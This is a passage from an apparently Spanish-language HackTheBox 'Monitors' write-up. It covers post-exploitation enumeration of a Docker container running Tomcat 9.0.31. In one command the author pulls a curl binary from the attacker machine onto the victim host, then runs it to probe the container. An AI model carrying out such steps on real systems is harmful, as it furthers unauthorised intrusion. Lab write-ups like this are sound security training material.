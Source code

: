 Jmmm, veamos si el servicio **docker** esta activo:

```bash
marcus@monitors:/tmp$ systemctl status docker
● docker.service - Docker Application Container Engine
   Loaded: loaded (/lib/systemd/system/docker.service; enabled; vendor preset: enabled)
   Active: active (running) since Wed 2021-07-07 05:49:31 UTC; 18h ago
     Docs: https://docs.docker.com
 Main PID: 1586 (dockerd)
    Tasks: 17
   CGroup: /system.slice/docker.service
           ├─1586 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
           └─2033 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443

Warning: Journal has been rotated since unit was started. Log output is incomplete or unavailable.
```

Bien, esta activo y corriendo un contenedor con la IP **172.17.0.2** y el puerto **8443**, intentemos ver si nos responde una petición web:

```bash
marcus@monitors:/tmp$ __curl http://172.17.0.2:8443
Bad Request
This combination of host and port requires TLS.
marcus@monitors:/tmp$ __curl https://172.17.0.2:8443
Bad Request
This combination of host and port requires TLS.
```

F, no tenemos acceso al contenido, ya que no podemos hacer peticiones SSL con la función `__curl`. Acá decidí descargar el binario `curL` a mi máquina para posteriormente subirlo a la máquina, pues después de eso, conseguimos tener `curL` (el verdadero) en la máquina victima (:

```bash
marcus@monitors:/tmp/test$ __curl http://10.10.14.146:8000/curl > curl
marcus@monitors:/tmp/test$ chmod +x curl
marcus@monitors:/tmp/test$ ./curl 
curl: try 'curl --help' for more information
```

Con él podemos saltarnos la comprobación que hace de **SSL**:

```bash
marcus@monitors:/tmp/test$ ./curl -k https://172.17.0.2:8443
```

![341bash_marcusSH_curl_docker](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341bash_marcusSH_curl_docker.png)

Vemos que no encuentra nada al dirigirnos al recurso `/`, peeeero al final vemos la versión **9.0.31** de **Apache Tomcat**, perfecto.

> Despues de ver algunas vulnerabilidades relacionadas a esa version no encontramos nada llamativo.

...

## <u>Port-Fortwarding</u> contra el <u>contenedor docker</u> [📌](#fortwarding-docker-8443) {#fortwarding-docker-8443}
